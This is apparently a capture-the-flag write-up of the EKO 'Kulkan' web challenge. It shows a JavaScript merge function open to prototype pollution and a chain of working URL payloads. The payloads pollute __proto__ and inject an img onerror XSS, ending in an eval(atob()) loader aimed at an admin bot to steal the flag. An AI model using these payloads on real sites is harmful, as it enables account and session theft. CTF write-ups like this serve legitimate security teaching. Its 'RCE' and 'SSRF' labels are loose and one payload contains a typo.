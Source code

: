 # Kulkan (500 points) - Pentesting

![Alt text](./_images/image.png)

This problem is from kulkan sponsor. The challenge is to compliment Messi through customizing the compliment message with json. The json is parsed and the compliment message is displayed.

At the bottom we can see a hint: 
![Alt text](./_images/image-1.png)

This hint is seems familiar to us. It is a prototype pollution attack. The json is parsed and merged with the default json. The mergeObjects function is vulnerable to prototype pollution. We can pollute the prototype of the default json and add a new property to the default json. The new property will be added to the compliment message. The prototype pollution is well explained [here](https://portswigger.net/web-security/prototype-pollution).

Along with the hint, we need to do some OWASP framework, by starting with viewing contents and it's source code. We found a javascript that will do the job of Messi's compliment.
```js
const params = new URLSearchParams(window.location.search);
document.getElementById('input_json').value = params.get('input_json') || '';

let randomObject = {};

function mergeObjects(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) {
                target[key] = {};
            }
            mergeObjects(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
}

function applyUpdate() {
    const configStr = document.getElementById('input_json').value;
    let config = {};

    try {
        config = JSON.parse(configStr);
    } catch (e) {
        console.log("Invalid JSON, you can do better for Messi.");
        return;
    }

// Hey, you're doing a great job if you're here reviewing code. You've got this!
    let defaultConfig = { color: "blue", fontSize: "16px" };
    mergeObjects(defaultConfig, config);

    const complimentDiv = document.getElementById('compliment');

    if (defaultConfig.compliment) {
        complimentDiv.innerText = defaultConfig.compliment;
    }
    if (defaultConfig.color) {
        complimentDiv.style.color = defaultConfig.color;
    }
    if (defaultConfig.fontSize) {
        complimentDiv.style.fontSize = defaultConfig.fontSize;
    }
    if (randomObject.win) {
        complimentDiv.innerHTML = randomObject.win;
    }
}

applyUpdate();
```
So the web page will get `input_json` from the url and parse it as json. The json will be merged with the default json. The merged json will be used to compliment Messi and will be displayed in the `compliment` div.

First payload from @ysl to test the prototype pollution:
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":true}}
```

![Alt text](./_images/image-2.png)

So the payload is working, this is road to XSS-RCE.

Now building our XSS payload :
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":"<img src=x onerrpr=alert(1)>"}}
```

![Alt text](./_images/image-3.png)

The payload is working, now we can build our RCE payload with XSShunter:
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":"<img src=x id=yourencodedpayloadwithmaliciouslink onerror=eval(atob(this.id))>"}}
```
![Alt text](./_images/image-4.png)

There is nothing when just browsing the link. We need to find where we can get the flag with this RCE. With my big brain, there is an Admin bot page that accepts URL and feels like this is SSRF that reveal secrets in the server.

![Alt text](./_images/image-5.png)

And we got the flag

![Alt text](./_images/image-6.png)

**FLAG:** EKO{Kulk4n__Quetz4}

